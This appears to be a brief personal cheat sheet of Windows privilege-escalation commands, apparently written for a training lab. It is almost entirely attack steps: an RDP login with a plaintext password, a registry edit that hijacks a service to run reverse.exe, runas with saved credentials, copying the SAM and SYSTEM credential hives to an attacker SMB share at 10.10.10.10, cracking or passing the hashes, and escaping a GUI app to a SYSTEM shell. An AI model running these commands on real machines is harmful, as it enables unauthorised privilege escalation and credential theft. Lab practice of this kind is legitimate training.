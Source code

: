 Use below command for rdp:

	"xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.110.135"

SmbServer:
	For setting a smbserver for file transfer use:
		"python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali ."

		"copy \\<Machine IP>\kali\file_to_send 			File_location_on_victim"

Weak Registry Permission:
	sc qc regsvc
	reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

Saved Creds:
	"cmdkey /list"
	"runas /savecred /user:admin C:\PrivEsc\reverse.exe"

SAM password:
	"copy C:\Windows\Repair\SAM \\10.10.10.10\kali\"
	"copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\"
	"python3 creddump7/pwdump.py SYSTEM SAM"
	"hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt"
		or simply login with the hash "pth-winexe -U 'admin%hash(both hashes separated by a colon' //10.10.110.135 cmd.exe"

InSecure Gui Apps:
	"tasklist /V | findstr mspaint.exe"
	Open "file://c:/windows/system32/cmd.exe" in notepad or paint to get a system32 shell.